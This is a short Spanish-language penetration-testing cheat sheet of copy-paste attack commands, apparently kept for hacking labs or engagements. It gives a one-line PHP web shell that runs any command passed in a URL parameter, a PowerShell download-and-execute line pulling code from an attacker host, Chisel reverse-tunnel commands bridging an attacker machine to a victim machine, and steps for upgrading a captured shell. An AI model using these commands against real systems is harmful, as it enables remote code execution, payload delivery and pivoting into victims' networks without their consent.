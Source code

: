 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Servidor
```
./chisel server --reverse -p ATACKER_PORT
```

Cliente
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```




